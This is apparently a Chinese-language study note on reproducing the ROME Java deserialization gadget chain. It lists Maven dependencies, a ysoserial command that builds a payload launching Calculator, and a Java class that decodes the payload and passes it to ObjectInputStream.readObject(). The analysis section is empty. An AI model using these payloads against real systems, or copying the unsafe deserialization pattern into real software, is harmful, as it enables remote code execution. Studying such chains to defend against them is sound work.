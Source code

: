 # 环境搭建

```xml
<dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.28.0-GA</version>
        </dependency>
```

# 漏洞复现

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME 'open /System/Applications/Calculator.app' | base64
```

将输出的base64放到下面的exp中

```
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.util.Base64;

public class TestRome {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        String base64_exp = "base64";
        byte[] exp = Base64.getDecoder().decode(base64_exp);
        ByteArrayInputStream bytes = new ByteArrayInputStream(exp);
        ObjectInputStream objectInputStream = new ObjectInputStream(bytes);
        objectInputStream.readObject();
    }
}
```

![image-20221123104349392](images/1.png)

# 漏洞分析

